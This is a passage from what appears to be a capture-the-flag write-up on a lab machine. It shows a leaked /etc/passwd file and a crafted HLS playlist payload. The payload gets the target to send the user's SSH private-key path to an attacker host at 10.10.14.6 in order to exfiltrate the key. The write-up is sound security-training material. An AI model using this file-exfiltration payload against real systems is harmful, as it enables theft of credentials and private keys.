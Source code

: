
But now there’s a file that has `passwd` in it:

    
    
    oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd 
    root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nologintss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinlandscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falseusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:112:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinuser:x:1000:1000:user:/home/user:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falsemongodb:x:113:118::/var/lib/mongodb:/usr/sbin/nologin
    

The newlines are replaced with nulls, which is annoying, but easily fixed:

    
    
    oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd | tr '\000' '\n'
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...[snip]...
    

### SSH

#### Read Key

I managed to leak the username in error messages earlier, and now from the
`passwd` file. I’ll try to grab `id_rsa` from `/home/user/.ssh`:

    
    
    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    http://10.10.14.6/initial.m3u?filename=/home/user/.ssh/id_rsa
    #EXT-X-ENDLIST
    

On uploading, it worked:

    
    